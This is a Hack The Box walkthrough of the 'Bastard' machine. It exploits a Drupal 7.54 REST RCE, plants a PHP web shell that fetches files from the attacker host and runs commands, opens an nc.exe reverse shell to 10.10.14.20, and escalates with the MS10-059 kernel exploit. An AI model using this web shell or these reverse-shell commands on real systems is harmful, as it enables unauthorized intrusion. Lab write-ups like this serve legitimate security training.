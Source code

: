 # Bastard [htb](https://app.hackthebox.com/machines/Bastard)
![bastard-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/bastard-01.png)



## Recon


Lets add the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/hosts-02.png)


Now we can scan the target with: 

`nmap -sC -sV -A -p- bastard.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/nmap-res-03.png)


We have the following:

+ An IIS v7.5 server on port 80. Seems like the `robots.txt` has some interesting directories. 

+ RPC on ports 135, 49154. 


Lets check the website. 


### HTTP 80

If we open our browsers and navigate towards `http://bastard.htb/`: 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/site-04.png)

We see a login page, Iv'e tried SQLi, didnt really work for me. Creating an account doenst work, and the password reset feature doesnt work as well.  

If we take a look at the `robots.txt` file nmap found:

![robots-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/robots-05.png)


This `CHANGELOG.txt` file must contain version numbers. 

![changelog-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/changelog-06.png)


We can see the backend is `Drupal 7.54`. If we use look up vulnerabilities:

`searchsploit drupal 7`

![searchsploit-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/searchsploit-06.png)


There's no shortage, Lets try the highlighted rce exploit. Copy it over with:

`cp /usr/share/exploitdb/exploits/php/webapps/41564.php rce.php`

Once you have the file in your current directory, open it:

![php-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/php-08.png)

Looks like the script is searching for an endpoint in `rest_endpoint`. Lets see if we have this directory:

`http://bastard.htb/rest_endpoint`
 
![endpoint-fail-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/endpoint-fail-09.png)

We dont, but if we go to `http://bastard.htb/rest`: 

![endpoint-success-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/endpoint-success-10.png)

Now we found the rest endpoint location, which means we can probably wxploit this. We just need to update the directory name in the exploit:

![update-exploit-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/update-exploit-11.png)

I updated the endpoint path, filename, and the URL of our target. I also added some php code so we can
upload files and execute commands.

```php
<?php
        if (isset($_REQUEST['fupload'])) {
                file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.20/" . $_REQUEST['fupload']));

        };

        if (isset($_REQUEST['fexec'])) {
                echo "<pre>".shell_exec($_REQUEST['fexec'])."</pre>";

        };

?>
```
 

To run this, you might need to install curl-php with `apt install php-curl`. 

Then we can run the exploit with: 

`php rcp.php`

![execute-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/execute-12.png)


Now that the file has been uploaded, we can execute commands via the URL:

`http://bastard.htb/shell.php?fexec=dir`

![rce-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/rce-13.png)


Lets see if we can upload `nc.exe` to the target and get a reverse shell. 

Copy `nc.exe` to your working directory: 

`cp /usr/share/windows-resources/binaries/nc.exe .`


Start a python web server:

`python3 -m http.server 80`

Use the file upload feature to put in on the target: 

`http://bastard.htb/shell.php?fupload=nc.exe`


![nc-transfer-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/nc-transfer-14.png)


Looks like the file has been saved on the target. 

Lets start the local listener: 

`nc -lnvp 9001` 


Now we want to execute `nc.exe` with: 

`nc.exe -e cmd.exe 10.10.14.20 9001`

I use Burp to URL-encode this. 

If we send the payload in the URL:

`http://bastard.htb/shell.php?fexec=<payload>`


We get a shell: 

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/shell-15.png)

Lets try to get system! 

## Privilege Escalation

If we run `systeminfo`:

![sysinfo-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/sysinfo-16.png)

We can see we are up againts a 2008 Windows server. If we take this output, save it to a file on our
Kali machine, and run [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) againts it, we can see the following:

![exploit-suggester-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/exploit-suggester-17.png)

MS10-059 is a well known kernel exploit for Windows as it works more often then not, so its worth a shot. 

You can find the exploit [here](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe), download it to your Kali machine. 

Next, start a python web server with: 

`python3 -m http.server 80`

and use the file upload feature we created before to upload the file to the target: 

`http://bastard.htb/shell.php?fupload=Chimichurri.exe`

![dir-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/dir-18.png)

Setup the netcat listener with:

`nc -lnvp 9002`


Finally, execeute the exploit with:

`Chimichurri.exe 10.10.14.31 9002`

Where the IP is your Kali machine, and `9002` the port your listening on. 


Execute, and this should yield you a shell as the system:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/root-19.png)

